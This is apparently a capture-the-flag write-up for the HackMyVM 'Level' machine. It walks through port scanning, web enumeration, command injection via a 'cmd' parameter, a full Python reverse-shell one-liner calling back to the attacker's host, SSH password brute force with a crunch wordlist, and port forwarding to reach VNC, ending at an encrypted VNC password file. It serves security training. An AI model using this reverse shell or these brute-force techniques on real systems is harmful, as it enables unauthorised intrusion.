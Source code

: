 # HackMyVM-Level

<img src="https://imgur.com/cIEzgby.png"/>


## NMAP

```

Nmap scan report for 192.168.1.106                                                                                                           [29/61]
Host is up (0.00037s latency).                                                                                                                      
Not shown: 995 closed ports                                                                                                                         
PORT      STATE SERVICE     VERSION                                                                                                                 
21/tcp    open  ftp         vsftpd 3.0.3                                  
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                    
| ftp-syst:                                                               
|   STAT:                                                                                                                                           
| FTP server status:                 
|      Connected to ::ffff:192.168.1.8                                    
|      Logged in as ftp              
|      TYPE: ASCII                   
|      No session bandwidth limit                                         
|      Session timeout in seconds is 300                                  
|      Control connection is plain text                                   
|      Data connections will be plain text                                
|      At session startup, client count was 1                             
|      vsFTPd 3.0.3 - secure, fast, stable                                
|_End of status                      
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))                
|_http-server-header: Apache/2.4.38 (Debian)                              
|_http-title: Site doesn't have a title (text/html).                      
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                             
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)                                                                          
65000/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                                                          
| ssh-hostkey:                       
|   2048 e0:e7:a1:e4:f8:6f:ce:9f:e5:b8:61:a0:83:e8:e4:77 (RSA)                                                                                      
|   256 69:6a:91:6b:bb:bf:60:55:dc:a3:0b:8f:53:b7:83:7b (ECDSA)                                                                                     
|_  256 8e:92:3d:35:d2:25:4e:e2:f4:1e:21:70:56:56:94:e4 (ED25519)    
MAC Address: 08:00:27:8C:C8:F1 (Oracle VirtualBox virtual NIC)                                                                                [0/61]
Service Info: Host: LEVEL; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                                                         

Host script results:                 
|_clock-skew: mean: -20m00s, deviation: 34m38s, median: 0s                
|_nbstat: NetBIOS name: LEVEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)                                                            
| smb-os-discovery:                  
|   OS: Windows 6.1 (Samba 4.9.5-Debian)                                  
|   Computer name: level             
|   NetBIOS computer name: LEVEL\x00                                      
|   Domain name: \x00                
|   FQDN: level                      
|_  System time: 2021-01-09T18:41:01+01:00                                
| smb-security-mode:                 
|   account_used: guest              
|   authentication_level: user                                            
|   challenge_response: supported                                         
|_  message_signing: disabled (dangerous, but default)                    
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled but not required                            
| smb2-time:                         
|   date: 2021-01-09T17:41:01        
|_  start_date: N/A                  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                      
Nmap done: 1 IP address (1 host up) scanned in 13.47 seconds              

```

## PORT 21 (FTP)


<img src="https://imgur.com/OwmxsLG.png"/>

There wasn't anything on ftp server.

## PORT 139/445 (SMB)

<img src="https://imgur.com/XmdPiQQ.png"/>

There weren't any share that we could access as anonymous

Running `enum4-linux-ng` I found one user by the name of `one`

<img src="https://imgur.com/IqAvVzs.png"/>

## PORT 80

<img src="https://imgur.com/nEOw8eP.png"/>

Looking at `robots.txt` 

<img src="https://imgur.com/9zc7gMG.png"/>

We saw these directories but they were not on the box but if we scroll down a bit we will find a text written in `brainfuck`

<img src="https://imgur.com/b1F0kss.png"/>

<img src="https://imgur.com/zqVy3jd.png"/>

Visting this directory it will give us a sort of wordlist

<img src="https://imgur.com/OcbIXwK.png"/>

Using this wordlists we found a directorty

<img src="https://imgur.com/39yCl7q.png"/>

But still we need to enumerate more

<img src="https://imgur.com/V7eMfuW.png"/>

I ran the wordlist on directory `Level2021`

<img src="https://imgur.com/LTtLES6.png"/>

<img src="https://imgur.com/NeciiGA.png"/>

But found a static message, I just made a guess about having `cmd` paramter and I was right

<img src="https://imgur.com/SOo2rx3.png"/>

To get a reverse shell I used the python rev shell payload

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

<img src="https://imgur.com/GT8j4Zr.png"/>

Then I found a hint in the `/home` directory

<img src="https://imgur.com/6EGgCbw.png"/>

```
################################################
#                                              #
# changing "x" to "number" can be a great idea #
#                                              #
# one:0n30n3xxx                                #
#                                              #
################################################

```
I tried guessing the password with

`0n30n3111` and `0n30n30n3`  but failed.

<img src="https://imgur.com/KKSJOV9.png"/>

I ran linpeas and the only thing I could dig out was the open that was open to only localhost

<img src="https://imgur.com/fR2sN4E.png"/>

So we can do ssh port forwarding but for that we need a valid password for the user `one` so going back to `.one_secret.txt` we may need to craf a wordlist of password with `0n30n3xxx`, where `xxx` will be the random numbers.

<img src="https://imgur.com/veNmj8C.png"/>

I used crunch to make wordlist of the pattern knowing the length of the password which is 9 

<img src="https://imgur.com/UA7JAE9.png"/>

Then use this wordlist to bruteforce against ssh with the user name `one`

<img src="https://imgur.com/Rl3aLC5.png"/>

<img src="https://imgur.com/vzDj3yp.png"/>

<img src="https://imgur.com/QN48Ym0.png"/>

Lets connect to port 5901 with netcat

<img src="https://imgur.com/eBbwqZB.png"/>

Searching this on goolge results in something to do with vnc (virtual networking computing) which is for remote access to a computer similar to windows RDP.

<img src="https://imgur.com/7me5VRY.png"/>

Here `RFB 003.008`  means remote port is a VNC server and up.Now in order to acess this port we need to do ssh port forwarding.

<img src="https://imgur.com/vhh9biO.png"/>

Now if we go to our browser using localhost:5901 we will get this result

<img src="https://imgur.com/L4mPMRI.png"/>

<img src="https://imgur.com/44O3LUN.png"/>

In order to connect to vnc we need a password , by default it is saved in $HOME/.vnc/passwd but in this case it isn't configured to be saved there so we may need to find the password file on the target machine.

<img src="https://imgur.com/lehFgHL.png"/>

In `one`'s directory we can see `...` which is a folder

<img src="https://imgur.com/f44V2la.png"/>

Here `remote_level` is the encrypted password file for connecting to vnc

<img src="https://imgur.com/gNmDGdz.png"/>

<img src="https://imgur.com/XzuUgcv.png"/>

<img src="https://imgur.com/cADOUce.png"/>